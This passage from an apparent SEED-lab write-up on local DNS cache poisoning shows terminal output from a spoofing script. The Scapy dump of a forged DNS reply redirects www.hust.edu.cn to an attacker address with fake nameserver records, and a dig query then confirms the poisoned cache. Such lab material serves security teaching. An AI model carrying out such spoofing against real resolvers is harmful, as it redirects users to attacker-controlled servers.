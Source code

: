 ```shell
## terminal 1
[05/01/22]seed@VM:~/.../FakeHtmlServer$ sudo go run main.go

## terminal 2
[05/01/22]seed@VM:~/.../FakeHtmlServer$ sudo ../local_dns_poisoning_attack.py 
length     : ShortField (Cond)                   = None            ('None')
id         : ShortField                          = 19833           ('0')
qr         : BitField  (1 bit)                   = 1               ('0')
opcode     : BitEnumField                        = 0               ('0')
aa         : BitField  (1 bit)                   = 1               ('0')
tc         : BitField  (1 bit)                   = 0               ('0')
rd         : BitField  (1 bit)                   = 0               ('1')
ra         : BitField  (1 bit)                   = 0               ('0')
z          : BitField  (1 bit)                   = 0               ('0')
ad         : BitField  (1 bit)                   = 0               ('0')
cd         : BitField  (1 bit)                   = 0               ('0')
rcode      : BitEnumField                        = 0               ('0')
qdcount    : DNSRRCountField                     = 1               ('None')
ancount    : DNSRRCountField                     = 1               ('None')
nscount    : DNSRRCountField                     = 2               ('None')
arcount    : DNSRRCountField                     = 2               ('None')
qd         : DNSQRField                          = <DNSQR  qname='www.hust.edu.cn.' qtype=A qclass=IN |> ('None')
an         : DNSRRField                          = <DNSRR  rrname='www.hust.edu.cn.' type=A ttl=11803 rdata=172.18.0.1 |> ('None')
ns         : DNSRRField                          = <DNSRR  rrname='hust.edu.cn' type=NS ttl=11803 rdata='ns1.hust.edu.cn' |<DNSRR  rrname='hust.edu.cn' type=NS ttl=11803 rdata='ns2.hust.edu.cn' |>> ('None')
ar         : DNSRRField                          = <DNSRR  rrname='ns1.hust.edu.cn' type=A ttl=11803 rdata=201.91.180.3 |<DNSRR  rrname='ns2.hust.edu.cn' type=A ttl=11803 rdata=200.10.3.27 |>> ('None')
.
Sent 1 packets.
```

- 此时关闭攻击程序，再次在客户机使用`dig www.hust.edu.cn`进行`DNS`查询，结果依然为攻击者伪造的信息，且`TTL`相应地减小：

```shell
root@DNS_User:/# dig www.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 49458
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;www.hust.edu.cn.		IN	A

;; ANSWER SECTION:
www.hust.edu.cn.	11735	IN	A	172.18.0.1

;; AUTHORITY SECTION:
hust.edu.cn.		11735	IN	NS	ns1.hust.edu.cn.
hust.edu.cn.		11735	IN	NS	ns2.hust.edu.cn.

;; ADDITIONAL SECTION:
ns1.hust.edu.cn.	11735	IN	A	201.91.180.3
ns2.hust.edu.cn.	11735	IN	A	200.10.3.27

;; Query time: 0 msec
;; SERVER: 172.18.0.3#53(172.18.0.3)
```